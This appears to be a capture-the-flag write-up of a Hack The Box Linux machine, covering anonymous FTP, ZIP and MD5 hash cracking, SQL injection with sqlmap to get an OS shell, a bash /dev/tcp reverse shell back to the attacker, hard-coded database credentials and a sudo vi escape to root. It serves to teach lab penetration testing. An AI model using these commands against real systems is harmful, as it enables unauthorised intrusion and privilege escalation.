


---
tags:
  - Linux
  - FTP
  - Guest access
  - HTTP
  - SQL Injection
  - Sudoers
---

... is a simple HTB machine which offers a `ftp` service which stores a password protected ZIP file. It can be cracked to reveal the source code of the `http` service on port `80`, which hides hard coded credentials. After using these credentials, an SQL injection vulnerability allows you to execute os commands. A configuration file hides a password to the user `postgres`, which can be used for `ssh` access. Becoming `sudo` happens through the insecure configuration of the `/etc/sudoers` file.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.10.10
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
The `nmap` script `ftp-anon` shows us that anonymous `ftp` connections are allowed!
### Initial Exploitation
After connecting to `ftp $IP`, i provide the name `anonymous` without a password and use the `get` command on the `backup.zip` file, which i quickly `unzip`. As it is password protected, that did not work. Before trying to crack the password, i visit the web page using `firefox`. 

It shows me a login window to a company called `MegaCorp`. I try easy combinations like `admin:admin` and `root:root` to no avail. Before deploying a brute force attack, i use `dirb http://$IP` to find sub directories. I haven't found anything of use, not even with a bigger wordlist.
I have left a `burpsuite intruder` scan running in the background for a while, but it did not find any valid credentials.

So i went back to the `zip` file. I have tried the tool `fcrackzip`, but it didn't work somehow. I looked for alternatives and stumbled upon `zip2john`. It can turn a protected ZIP archive into a crackable hash file, using the command `zip2john backup.zip > hash.txt`. This hash can then be cracked by `john the ripper` using this command:
```bash
john --wordlist=./rockyou.txt hash.txt
```
using the very big wordlist `rockyou.txt`. The password gets found relatively quickly, and with that i open the zip file. I open the `index.php`, as that might hide some `PHP` logic. And indeed, i find this PHP code:
```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
This tells me that if the username is `admin` and the `MD5` hash of the password parameter equals `cb42f8734ea607eefed3b70af13bbd3`, i am logged in. To find out what the cleartext password is, i can crack this hash manually using a big word list like `rockyou.txt`, but instead of going through the hassle, i visit `crackstation.net`, to see if it exists in a pre-cracked database (online `rainbow-table`). And it did!

> **_NOTE:_** I looked into the wordlists i used for brute-forcing the web login to find out if the actual password was in any of them (using `cat wordlist | grep "password"`). It was included in `rockyou.txt`, but not in the others, which i did use for brute-forcing.

As i have now established a foothold and got into the password-protected backend, i am greeted with a `MegaCorp Car Catalogue`. I can see a table of multiple entries of presumably cars, and i have a search functionality. As this screams `USAGE OF SQL DATABASE`, i try to enter `test"` or `test'`. 
The payload `test'` shows me this error on the screen:
```bash
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%test'%' ^
```
Bingo. I go to `burpsuite` to intercept the request i sent to generate this error message, and save it into a `test.req` file. I additionally mark the injection point (the `GET` parameter `?search=test`) with a `*` symbol so that `sqlmap` knows where to try the SQL-injection.
Using this `test.req` file, i can get a shell using this command:
```bash
sqlmap -r test.req --batch --os-shell
```
This gives me a `shell`-like environment! 
> **_NOTE:_** I have also dumped the database using the `--dump` flag, but only the car models of the website were in the database.

### Lateral movement
In the `/home` directory i can see that a user named `simon` exists, but he has no `/home/simon/.ssh` directory (no ssh keys, probably password authentication)
Simon's password is most likely located in a configuration file. I look up where `PostgreSQL` stores its config files, and i find this command:
```bash
psql -U postgres -c 'SHOW config_file'
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: specify user, here postgres
# -c: issue the following sql command
```

This has shown me this:
```bash
config_file               
-----------------------------------------
 /etc/postgresql/11/main/postgresql.conf
```
This file did not contain any credentials, nor did all of the files in the `/etc/postgresql/11/main` directory.

As the `postgresql` service did not contain any configuration files which show passwords, i looked into the `/var/www/html` directory, as the `http` service also may contain `.config` files:
```bash
drwxr-xr-x 2 root root   4096 Jul 23  2021 .
drwxr-xr-x 3 root root   4096 Jul 23  2021 ..
-rw-rw-r-- 1 root root 362847 Feb  3  2020 bg.png
-rw-r--r-- 1 root root   4723 Feb  3  2020 dashboard.css
-rw-r--r-- 1 root root     50 Jan 30  2020 dashboard.js
-rw-r--r-- 1 root root   2313 Feb  4  2020 dashboard.php
-rw-r--r-- 1 root root   2594 Feb  3  2020 index.php
-rw-r--r-- 1 root root   1100 Jan 30  2020 license.txt
-rw-r--r-- 1 root root   3274 Feb  3  2020 style.css
```
The `index.php` isn't as interesting anymore, as the source code was included in the `backup.zip` which was brute-forced open. The `dashboard.php` is new though! Somehow (i really don't know why) the `cat /var/www/html/dashboard.php` command doesn't print it's content. The `.js` and `.css` file work. Even more strangely, `head` and `tail` still work. I decided to make them show more lines using the option `-n 20`. But, head only works with `-n 33` lines and not more, and tail with `-n 13` lines and not more. Strange.

After thinking about it, i remembered that i am in a shell where for each command, a ton of SQL commands are sent to the server via the `search` parameter in a `GET` request. And maybe the `PHP` syntax of `<?` messes with the output, which is in the middle of `head`'s first 33 lines and `tail`'s 13 lines. 
To circumvent this, i start a reverse shell, as that opens a process on the target system which connects to my machine (no funny `SQL` business).This  is done by starting a listener on my local machine using `nc`:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

And on the `SQL` bash of the target, i issue this command to invoke a reverse shell (find your own IP with `ip a`, located at `tun0` if using the VPN):
```bash
/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# /bin/bash -i: launch the bash binary in interactive mode
# >&: redirect standard output and standard error to:
# /dev/tcp/<IP>/port: when the bash binary opens this path, it creates a TCP connection!
# 0>&1: STDIN (0) gets redirected (>) to where STDOUT (1) is pointing
```

To finalize this, it must be wrapped with a `bash -c "..."`, as that explicitly tells the `bash`, and not the current shell to execute this command. The final command is this:
```bash
bash -c "/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1"
```

And indeed it worked! With this new connection, i read the `/var/www/html/dashboard.php` file and uncover this very interesting line of code:
```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```
... which connects to the database using the provided credentials if a user logs in (presumably to show the car entries). 
I can now use these credentials to form a stable `ssh postgres@$IP` session and read the `user.txt` flag! (plot twist, it was not `simon`)

### Privilege Escalation
To gain elevated privileges (`root` access), there are many different ways of achieving this. The most straightforward approach is to check if you can execute anything using elevated privileges using `sudo -l`. 
And yes, the command tells us this:
```bash
User postgres may run the following commands on vaccine:
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
This means that my current user `postgresql` is able to execute the binary `/bin/vi` (`vim` without the `im`proved features, simple bash text editor) ONLY on the file `/etc/postgresql/11/main/pg_hba.conf` and on no others. For this scenario, you can go to the website [GTFOBins](https://gtfobins.org/), as it has a collection of binaries which may elevate your privileges to `sudo` when they are executable as `sudo`.

With `vi`, i can open the file using:
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
And in the text editor, i can usually issue commands in the form of `:wq`(write file and quit) or `:q!` (force quit). But if i enter this instead:
```bash
:!/bin/bash
```
... it spawns a new bash as the user which was running the `vi` process (which was `root`). This shell can then be used to read `/root/root.txt`!

### Summary

Below is a visualized summary of the exploitation steps used in this machine.



The privilege escalation to the user `root` worked as follows:


